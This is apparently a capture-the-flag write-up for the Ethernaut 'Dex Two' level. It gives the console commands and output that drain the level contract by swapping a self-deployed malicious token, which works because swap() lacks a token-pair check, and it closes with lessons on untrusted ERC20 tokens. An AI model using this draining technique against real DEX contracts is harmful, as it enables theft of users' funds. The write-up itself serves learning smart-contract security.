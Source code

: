 # Dex Two

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

## Things that might help:

- How has the swap method been modified?
=> No require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
> It means we can pair any tokens,not need to be token1/token2
- Could you use a custom token contract in your attack?
=> See [malToken.sol](malToken.sol)

```javascript
token1 = await contract.token1()
> '0xab26e4E7Ec92d25a85487dB5c39d96195f1af718'
token2 = await contract.token2()
> '0x47D53D75825b8Cfa96fF947e5F567A7fFb22F300'
contract.address
> '0xd922a8B3FFCf9166cFdED9469d958218f7E34454'
```
Deploy MaliciousToken contract and approve Dex contract as spender in Remix
MaliciousToken.approve('0xd922a8B3FFCf9166cFdED9469d958218f7E34454',10000000)

Transfer 100 to DEX Two to create liquidity and conduct the same swap to withdraw the remaining tokens of DEX Two to be successful.But in this example, we transfer 200 MAL to test.

Drain all token1 from contract (we need swap amount return 100 because has 100 token1 in contract)
```javascript
let MAL = '0x51789c75256E68b5A80233c9Fc4477649990960C'
await contract.add_liquidity(MAL,200)
await contract.get_swap_amount(MAL,token1, 200).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token1, 200);
await contract.balanceOf(token1, contract.address).then(x=>x.toNumber())
> 0
```
Drain all token2 from contract (we need swap amount return 100 because has 100 token2 in contract)
```javascript
await contract.balanceOf(MAL, contract.address).then(x=>x.toNumber())
> 400
await contract.get_swap_amount(MAL,token2, 400).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token2, 400);
await contract.balanceOf(token2, contract.address).then(x=>x.toNumber())
> 0
```

Level completed!
Difficulty 4/10

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.